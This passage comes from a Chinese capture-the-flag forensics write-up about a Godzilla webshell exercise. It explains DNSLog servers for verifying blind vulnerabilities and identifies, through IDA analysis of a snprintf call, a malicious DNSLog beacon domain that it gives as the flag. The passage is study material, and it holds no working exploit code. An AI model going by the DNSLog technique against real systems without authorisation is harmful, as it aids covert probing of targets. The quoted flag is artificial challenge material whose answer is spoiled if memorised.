   - DNSLog 服务器仅记录 DNS 查询请求，不会对目标系统造成额外的影响。
2. **实时性**：
   - DNSLog 服务器会实时显示接收到的 DNS 查询请求，方便用户快速获取结果。
3. **易于使用**：
   - 用户只需访问 DNSLog 服务器的 Web 界面，生成一个唯一的子域名，并将其嵌入到目标系统中即可。
4. **支持多种场景**：
   - 适用于多种漏洞检测和渗透测试场景，尤其是无回显漏洞的验证。

推荐一个DNS服务器的在线平台：[dnslog在线](http://www.dnslog.cn/)

那这道题我们该怎么做呢？

同样的，我直接看着师傅的wp了

在IDA中继续看



**首先可以确认恶意 DNSLog 服务器地址：**

```
c0ee2ad2d8.ipv6.xxx.eu.org.
```

为什么是这个地址

- 动态生成：


代码中使用 snprintf 函数构造了一个 DNS 名称，结合了 name 和 p 变量。虽然具体的 name 和 p 值没有给出，但可以确定最终的地址是以 `c0ee2ad2d8.ipv6.xxx.eu.org. `结尾。

- 恶意意图：

这个 DNS 名称的构造意图是让被感染的系统向这个地址发送 DNS 请求，黑客可以通过 DNSLog 服务器记录下请求，获取用户的信息或活动。

- 与攻击者的联系：

通过这个地址，攻击者可以监控和识别目标系统，进而实施进一步的攻击或数据窃取。

- 总结

恶意 DNSLog 服务器的地址 c0ee2ad2d8.ipv6.xxx.eu.org. 是代码动态生成的，目的是监控用户活动并建立与攻击者的联系。

所以最终的flag

```
flag{c0ee2ad2d8.ipv6.xxx.eu.org.}
```

# 总结

终于看完了，此行也算是受益颇多了，做这个哥斯拉主要是因为之前在做一道陇剑杯的题，但是当时不知道哥斯拉的特征和流量怎么分析，然后又不太会抓现成的，所以就直接做玄机的题目了，没关系，后面会学习如何抓现成的包去进行深入分析
